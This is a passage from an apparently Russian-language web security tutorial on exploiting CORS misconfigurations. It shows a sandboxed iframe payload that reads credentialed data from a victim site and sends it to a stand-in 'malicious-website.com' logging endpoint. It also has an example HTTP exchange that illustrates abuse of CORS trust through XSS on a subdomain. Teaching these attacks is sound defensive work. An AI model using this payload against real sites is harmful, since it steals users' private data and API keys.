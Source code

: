 ```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" 
src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
    location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>

```

## Эксплуатация XSS через доверительные отношения CORS

Даже «правильно» настроенный CORS устанавливает доверительные отношения между двумя источниками. Если сайт доверяет источнику, уязвимому к XSS, злоумышленник может использовать XSS для внедрения JavaScript, который через CORS получит конфиденциальные данные с доверяющего сайта.

**Пример:**

Запрос:
```
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: https://subdomain.vulnerable-website.com
Cookie: sessionid=...

```

Ответ:

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true

```

Если злоумышленник найдёт XSS на `subdomain.vulnerable-website.com`, он сможет использовать его для получения API‑ключа, например:

```
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>

```

## Нарушение TLS из-за неправильно настроенного CORS

Предположим, приложение строго использует HTTPS, но также вносит в белый список доверенный поддомен, работающий по обычному HTTP.
